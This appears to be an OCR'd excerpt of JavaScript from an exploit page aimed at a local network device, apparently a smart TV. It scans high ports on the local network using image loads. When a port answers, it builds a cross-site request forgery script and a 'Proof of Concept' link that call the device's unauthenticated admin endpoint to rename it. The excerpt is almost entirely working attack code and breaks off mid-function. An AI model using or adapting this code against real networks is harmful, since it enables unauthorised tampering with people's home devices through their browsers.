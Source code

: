 ```javascript
<textarea name="exploit_code" id="exploit_code" autocomplete="off" style="width:680px;height:130px;"></textarea>
<br><br>
<label for="exploit_poc">Exploit:</label>
<a href="#" name="exploit_poc" id="exploit_poc" target="_blank">Proof of Concept</a>
<br><br>
<script>
            get_hue_ip();

            async function scan_tv_ports(ip) {
                var check = 0;
                // dynamic ports 49152 - 65535
                var ports = get_ports_array(49152,65535);

                for (var i = 0; i < ports.length; i++) {
                    if(check != 0) { break; }

                    await new Promise(resolve => setTimeout(resolve, 50));

                    var img = document.createElement("img");
                    img.setAttribute("src", "http://"+ip+":"+ports[i]+"/web/file/largeIco.jpg");
                    img.style.width = "10px";
                    img.style.height = "10px";
                    //img.style.display = "none";
                    img.id = ports[i];
                    img.name = ip;

                    img.onload = function () {
                        check = 1;
                        document.getElementById("tv_port").value = this.id;
                        document.getElementById("web_admin").value = "http://"+this.name+":"+this.id+"/web";
                        var code = "\
<script>\n\
  function submitRequest() {\n\
    var xhr = new XMLHttpRequest();\n\
    xhr.open('GET', '"+"http://"+this.name+":"+this.id+"/web"+"/admin/setFriendlyName?name=%hostname%', true);\n\
    xhr.send();\n\
  }\n\
  submitRequest();\n\
<\/script>";
                        document.getElementById("exploit_code").value = code;
                        document.getElementById("exploit_poc").href = "http://"+this.name+":"+this.id+"/web"+"/admin/setFriendlyName?name=%hostname%";
                        console.log(this.id);

                    };
                    document.body.appendChild(img);
                    setTimeout(function () {
                        this.continue;
                    }, 50);
                    
                }
                var imgs = document.querySelectorAll('img');
                for (var i = 0; i < imgs.length; i++) {
                    imgs[i].parentNode.removeChild(imgs[i]);
                }
            }

            function get_tv_ip() {
                var local_ip = document.getElementById("internal_ip").value;
                var ips = ip_to_range(local_ip);
```